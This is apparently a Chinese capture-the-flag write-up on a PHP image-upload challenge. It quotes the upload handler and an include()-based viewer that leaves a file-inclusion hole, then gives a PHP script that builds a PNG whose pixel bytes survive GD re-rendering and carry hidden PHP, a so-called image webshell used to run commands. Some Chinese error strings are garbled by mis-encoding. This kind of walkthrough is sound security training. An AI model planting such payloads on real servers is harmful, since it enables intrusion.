


# 知识点
### imagepng
将png图片保存至指定地址<br />[https://www.php.net/manual/en/function.imagepng.php](https://www.php.net/manual/en/function.imagepng.php)
### imagecreatefrompng
创建一块画布，并从 PNG 文件或 URL 地址载入一副图像<br />[https://www.php.net/manual/en/function.imagecreatefrompng.php](https://www.php.net/manual/en/function.imagecreatefrompng.php)
# 思路
```python
<?php
error_reporting(0);
if ($_FILES["file"]["error"] > 0)
{
	$ret = array("code"=>2,"msg"=>$_FILES["file"]["error"]);
}
else
{
    $filename = $_FILES["file"]["name"];
    $filesize = ($_FILES["file"]["size"] / 1024);
    if($filesize>1024){
    	$ret = array("code"=>1,"msg"=>"鏂囦欢瓒呰繃1024KB");
    }else{
    	if($_FILES['file']['type'] == 'image/png'){
            $arr = pathinfo($filename);
            $ext_suffix = $arr['extension'];
            if(in_array($ext_suffix, array("png"))){
                $png = imagecreatefrompng($_FILES["file"]["tmp_name"]);
                if($png==FALSE){
                    $ret = array("code"=>2,"msg"=>"鏂囦欢绫诲瀷涓嶅悎瑙�");
                }else{
                    $dst = 'upload/'.md5($_FILES["file"]["name"]).".png";
                    imagepng($png,$dst);
                    $ret = array("code"=>0,"msg"=>md5($_FILES["file"]["name"]).".png");
                }
            }else{
                $ret = array("code"=>3,"msg"=>"鍙厑璁镐笂浼爌ng鏍煎紡鍥剧墖");
            }
            
    		
    	}else{
    		$ret = array("code"=>2,"msg"=>"鏂囦欢绫诲瀷涓嶅悎瑙�");
    	}
    	
    }

}


echo json_encode($ret);echo json_encode($ret);
```
```python
<?php

$file= $_GET['image'];

$file = strrev($file);
$ext = strrev(substr($file, 0,4));
if($ext==='.png' && file_exists("./upload/".strrev($file))){
	header('Content-Type:image/png');
	include("./upload/".strrev($file));
}else{
	echo "鍥剧墖閿
```
后端代码使用imagecreatefrompng对PNG图片进行了二次渲染，导致我们直接在文件尾插入失效<br />所以，我们使用一个脚本来创建渲染后不会被破环的图片马
```python
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);


$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
?>

```
上传该脚本<br /><br />抓包进行命令执行<br />
